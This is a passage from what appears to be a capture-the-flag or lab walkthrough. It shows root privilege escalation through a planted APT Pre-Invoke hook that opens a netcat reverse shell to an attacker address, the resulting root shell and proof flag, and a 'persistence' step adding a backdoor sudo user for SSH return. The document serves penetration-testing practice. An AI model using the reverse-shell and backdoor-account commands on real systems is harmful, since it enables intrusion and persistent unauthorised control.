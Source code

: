 And that it looks the way we expect:

```
cat 75nothing-to-see-here
apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.59 80 >/tmp/f"};
```



13) We wait a while and hope that the cron job picks up our file... After a few seconds we get a catch a shell in our Kali machine - as `root`!

```
??$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.49.59] from (UNKNOWN) [192.168.59.220] 34328
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
# cd /root
#
# ls
build.sh
default.etcd
flimsy
nohup.out
proof.txt
run.sh
snap
#
# cat proof.txt
65389499e9cd13944ad1756c44e4ef9c
```

And there's our proof! We are done here.

## Persistence (Bonus)

14) Before leaving, we'll add a new linux user to the sudo group so we can come back through the front door (the ssh server):

> Note that I saw earlier that the ssh server already allowed PasswordAuthentication, so we dont't need to modify config nor restart the ssh service.

```
# sudo useradd -m hackerman                                                           
# echo hackerman:hackerman | sudo chpasswd                                            
# sudo usermod -aG sudo hackerman                                                     
# exit
```

15) Testing access

```
---(kali?kali)-[~]
--$ ssh hackerman@target
The authenticity of host 'target (192.168.59.220)' can't be established.
ED25519 key fingerprint is SHA256:bdEzYRpG4k3NkIr03/E2H6ltJRUD52Zi5YA0fkNr/nY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
hackerman@target's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
```